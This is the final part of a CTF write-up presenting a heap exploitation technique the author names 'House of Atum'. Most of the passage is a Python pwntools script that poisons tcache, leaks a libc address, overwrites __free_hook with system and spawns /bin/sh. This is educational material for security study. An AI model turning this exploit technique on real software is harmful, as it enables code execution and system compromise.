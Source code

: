 ```python
    free(0,'y')
    edit(1,p64(0))
    add("123")
    free(0,'y')
    edit(1,p64(0))
    add(p64(0x21)*9)
    free(0,'y')

    edit(1,p64(heap_addr+0x280))
    add("123")
    for i in range(0x7):
        free(0,'n')
    free(0,'y')
    edit(1,p64(heap_addr+0x260))
    add("A"*0x20)
    show(0)
    ru("A"*0x20)
    libc_addr=raddr()-0x3ebca0
    lg("Libc address",libc_addr)
    libc.address=libc_addr
    free(0,'y')

    # modify __free_hook
    edit(1,p64(libc.symbols['__free_hook']))
    add(p64(libc.symbols['system']))
    edit(1,'/bin/sh\x00')

    sla("choice:",str(3))
    sla(":",str(1))
    p.interactive()
```

This inconsistence is interesting and never occurs in CTFs, so I name it `House of Atum`. I think there are still many techniques that can be derived from it. I hope this challenge can bring you something.

### Conclusion
Again, if you like this writeup, please follow me on [Github](https://github.com/Changochen). If you have other solutions, please share with me!
